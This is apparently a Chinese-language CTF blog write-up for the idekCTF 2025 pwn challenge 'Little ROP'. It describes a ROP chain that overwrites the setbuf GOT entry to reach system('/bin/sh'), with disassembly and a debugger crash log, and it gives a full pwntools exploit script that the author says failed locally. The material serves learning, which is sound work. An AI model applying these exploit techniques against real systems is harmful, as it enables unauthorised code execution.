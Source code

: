 ```yaml
---
title: "Write-ups: idekCTF 2025"
published: 2025-09-19
updated: 2025-09-19
description: "Write-ups for idekCTF 2025 pwn aspect."
tags: ["Pwn", "Write-ups"]
category: "Write-ups"
draft: false
---
```


# Little ROP

## Information

- Category: Pwn
- Points: 362

## Description

> No PIE, no canary. Perfect setup for ROP. Show me what you can do!

## Write-up 1

840+ 支队伍，结果这题只有 27 个解，说实话一开始以为是签到题，结果没想到那么难……总之这题质量还是不错的，后期一定要回头深挖一下……

这题解法还挺多的，据我所知就有三种方法，我这里依次记录，就叫 Write-ups 1, 2, 3 吧，学习一下。

首先这个方法 1，也是我当时想到的方法，就是覆盖 `setbuf` 的 got 表为 one_gadget 的地址。但是后来发现找不到合适的 one_gadget……

这里记录的是和这个方法差不多的变体，注意到下面这个函数里面分别调用了三次 setbuf，用到了两个参数，其中 `stdin`, `stdout`, `stderr` 都位于 bss 段，作为 rdi 的参数。

```c
void __fastcall setup(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
}
```

这就给了我们一个控制 rdi 的 gadget，我们可以把 `/bin/sh` 写在已知的地址，选一个 rdi gadget 用于设置 rdi 。

```asm
; Attributes: bp-based frame

; void __fastcall setup(int argc, const char **argv, const char **envp)
public setup
setup proc near
; __unwind {
endbr64
push    rbp
mov     rbp, rsp
mov     rax, cs:stdin@GLIBC_2_2_5
mov     esi, 0          ; buf
mov     rdi, rax        ; stream
call    _setbuf
mov     rax, cs:stdout@GLIBC_2_2_5
mov     esi, 0          ; buf
mov     rdi, rax        ; stream
call    _setbuf
mov     rax, cs:stderr@GLIBC_2_2_5
mov     esi, 0          ; buf
mov     rdi, rax        ; stream
call    _setbuf
nop
pop     rbp
retn
; } // starts at 401156
setup endp
```

之后我们 partial overwrite setbuf 的低三字节为 `system` 的偏移，就有 $1/16$ 的概率命中 system 。

但是实际调试的时候发现在进入 `do_system` 后的栈操作会将我们本就不高的栈地址一直缩小，最后 RSP 变成了只读地址，然后向只读地址之写入数据，导致访问不可写地址而 abort 。

```asm showLineNumbers=false
Program received signal SIGSEGV, Segmentation fault.
0x00007fee1bf5b93e in do_system (line=0x404010 "") at ../sysdeps/posix/system.c:102
102 in ../sysdeps/posix/system.c
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────
 RAX  0xcdd2ecfdc1a6800
 RBX  0x404010 (_GLOBAL_OFFSET_TABLE_+16) ◂— 0
 RCX  0x7fee1c01f7e2 (read+18) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  1
 RDI  0x404010 (_GLOBAL_OFFSET_TABLE_+16) ◂— 0
 RSI  0
 R8   0x7fee1c126f10 (initial+16) ◂— 4
 R9   0x7fee1c147040 (_dl_fini) ◂— endbr64
 R10  0x7fee1bf115e8 ◂— 0xf001200001a64
 R11  0x246
 R12  0x7fff1d8a7218 —▸ 0x7fff1d8a7edb ◂— '/home/user/chall'
 R13  0x7fee1c1277a0 (quit) ◂— 0
 R14  0x7fee1c127840 (intr) ◂— 0
 R15  0x7fee1c17b040 (_rtld_global) —▸ 0x7fee1c17c2e0 ◂— 0
 RBP  0
 RSP  0x403c80 ◂— 0
 RIP  0x7fee1bf5b93e (do_system+62) ◂— mov qword ptr [rsp + 0x378], rax
────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────────
   0x7fee1bf5b926 <do_system+38>     punpcklqdq xmm1, xmm2
   0x7fee1bf5b92a <do_system+42>     push   rbx
   0x7fee1bf5b92b <do_system+43>     mov    rbx, rdi
   0x7fee1bf5b92e <do_system+46>     sub    rsp, 0x388
   0x7fee1bf5b935 <do_system+53>     mov    rax, qword ptr fs:[0x28]               RAX, [0x7fee1bf08768]
 ► 0x7fee1bf5b93e <do_system+62>     mov    qword ptr [rsp + 0x378], rax           [0x403ff8] <= 0xcdd2ecfdc1a6800
   0x7fee1bf5b946 <do_system+70>     xor    eax, eax                               EAX => 0
   0x7fee1bf5b948 <do_system+72>     mov    dword ptr [rsp + 0x18], 0xffffffff     [0x403c98] <= 0xffffffff
   0x7fee1bf5b950 <do_system+80>     mov    qword ptr [rsp + 0x180], 1             [0x403e00] <= 1
   0x7fee1bf5b95c <do_system+92>     mov    dword ptr [rsp + 0x208], 0             [_DYNAMIC+104] <= 0
   0x7fee1bf5b967 <do_system+103>    mov    qword ptr [rsp + 0x188], 0             [0x403e08] <= 0
─────────────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x403c80 ◂— 0
... ↓        7 skipped
───────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────────────
 ► 0   0x7fee1bf5b93e do_system+62
   1         0x401186 setup+48
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> vmmap 0x403c80+0x378
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File (set vmmap-prefer-relpaths on)
          0x402000           0x403000 r--p     1000   4000 chall_patched
►         0x403000           0x404000 r--p     1000   4000 chall_patched +0xff8
          0x404000           0x405000 rw-p     1000   5000 chall_patched
```

虽然我测试是失败了，无论是本地还是远程调试 docker 内的 chall，但比赛当天有人用同样的思路，打通了……很奇怪，感觉不可思议……

## Exploit 1

```python
#!/usr/bin/env python3

from pwn import (
    ELF,
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)

FILE = "./chall"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary
libc = ELF("./libc.so.6")


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    read = 0x4011A9
    leave_ret = 0x4011C0
    ret = 0x4011C1
    control_rdi = 0x401186
    store_binsh = 0x404080
    binsh = 0x404068
    system = libc.sym["system"]

    target.success(f"system: {hex(system)}")
    target.success(f"setbuf@got: {hex(elf.got['setbuf'])}")

    payload = flat(
        b"A" * 32,
        store_binsh,  # first_read rbp (store /bin/sh in `store_binsh - 0x20`)
        read,
        binsh,
        b"/bin/sh\x00",
        b"B" * 0x10,
        store_binsh - 0x30,  # rbp (for more ROP) 0x404040
        read,
        b"C" * 0x10,
        control_rdi,
        b"D" * 0x8,
        elf.got["setbuf"] + 0x20,  # rbp
        read,  # after this, pivot to higher stack...? seems impossible !
        b"\x70\x0d\x05",  # system
    )
    raw_input("DEBUG")
    target.send(payload)

    target.interactive()


if __name__ == "__main__":
    main()
```

## Write-up 2

据说预期解是 `ret2lresolve`，崩溃，留作 TODO，有空再研究。

## Exploit 2

TODO

## Write-up 3

还有一个解是使用 `add dword ptr [rbp - 0x3d], ebx; nop; ret` gadget，后面有空再研究，崩溃的我现在只想躺床上睡一天……

## Exploit 3

TODO

